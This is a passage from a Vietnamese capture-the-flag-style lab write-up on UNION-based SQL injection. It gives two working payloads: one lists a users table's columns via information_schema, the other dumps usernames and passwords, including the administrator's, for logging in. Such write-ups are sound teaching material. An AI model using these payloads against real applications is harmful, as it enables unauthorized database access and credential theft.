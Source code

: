 ![alt text](images/30.png)

12. Ta phát hiện được bảng `users_olbyfk` có thể có thông tin nhạy cảm, tiếp tục thực hiện truy vấn vào bảng này. Ta chọn một bộ lọc bất kỳ để tạo một truy vấn mới, thay giá trị của `category` và chọn **Forward**:


```
'+UNION+SELECT+column_name,NULL+FROM+information_schema.columns+WHERE+table_name='users_olbyfk'--
```

13. Lần này ta phát hiện được cột `username_rzmmxj` và `password_lxongs` có thể chứa thông tin nhạy cảm, tiếp tục tấn công tương tự như bước 11. bằng gói tin như sau:


```
'+UNION+SELECT+username_rzmmxj,password_lxongs+FROM+users_olbyfk--
```

14. Ứng dụng sẽ trả về thông tin đăng nhập của người dùng, bao gồm cả `administrator`. Sử dụng thông tin này để đăng nhập và ứng dụng sẽ thông báo hoàn thành bài lab.
